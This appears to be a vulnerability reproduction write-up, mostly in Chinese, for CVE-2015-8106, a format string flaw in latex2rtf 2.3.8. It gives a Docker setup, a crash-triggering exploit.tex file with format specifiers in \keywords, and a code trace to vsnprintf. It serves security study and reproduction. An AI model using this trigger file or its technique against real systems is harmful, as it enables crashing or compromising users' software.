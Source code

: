 # CVE/EDB ID

CVE-2015-8106

## Experiment Environment

实验环境：Debian 9.13

软件版本：latex2rtf 2.3.8

docker镜像：[liruochen2008/cve20158106 - Docker Image | Docker Hub](https://hub.docker.com/r/liruochen2008/cve20158106)

使用命令：`sudo docker run -t liruochen2008/cve20158106:v2`即可获取镜像并创建容器，容器会自动重现漏洞。

## INSTALL & Configuration

[LaTeX to RTF converter - Browse /latex2rtf-unix/2.3.8 at SourceForge.net](https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/)

解压tar包之后，使用Makefile进行安装即可。

## Problems in Installation & Configuration

## How to trigger vulnerability

编写https://seclists.org/oss-sec/2015/q4/283中提供的exploit.tex，如下所示：

```
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
\keywords{%x\%n\%n\%n}
\end{document}
=========================
```

其中，\keywords这一行，由于latex中符号%的注释作用，会使得第一个%之后的字符全部被忽略，因此应被修改为：`\keywords{\%x\%n\%n\%n}`。

执行命令 latex2rtf exploit.tex 后，触发段错误。

## PoCs

[CVE-2015-8106 : Format string vulnerability in the CmdKeywords function in funct1.c in latex2rtf before 2.3.10 allows remote attackers t (cvedetails.com)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-8106)

[oss-security - CVE-2015-8106 - latex2rtf v2.3.8 format string vulnerability (openwall.com)](https://www.openwall.com/lists/oss-security/2015/11/16/3)

## Vulnerability Details & Patch

```
When the user runs latex2rtf with malicious crafted tex file, an ``attacker can execute arbitrary code.
The function CmdKeywords processes the \keywords command in tex file.
The variable `keywords' in the function CmdKeywords may hold a malicious ``input string, which can be used as a format argument of vsnprintf.
-- Step 1. (funct1.c 1789 line)

1789        char *keywords = getBraceParam();
For instance, the variable keywords will point to the string “MALICIOUS” ``when a text line "\keywords{MALICIOUS}” exists in an input tex file.
-- Step 2. (funct1.c 1798 line)

1798    fprintRTF(keywords);
fprintfRTF() is called in line 1798, and the parameter is used as a ``format string, which can be malicious, as we described in step 1.
-- Step 3. (main.c 873 line)
858    void fprintRTF(char *format, ...){
      ...
873    vsnprintf(buffer, 1024, format, apf);
      ...
The value of format, which may be malicious, is used as an argument of ``vsnprintf in line 873, therefore arbitrary code can be executed.
```

## References

https://seclists.org/oss-sec/2015/q4/283
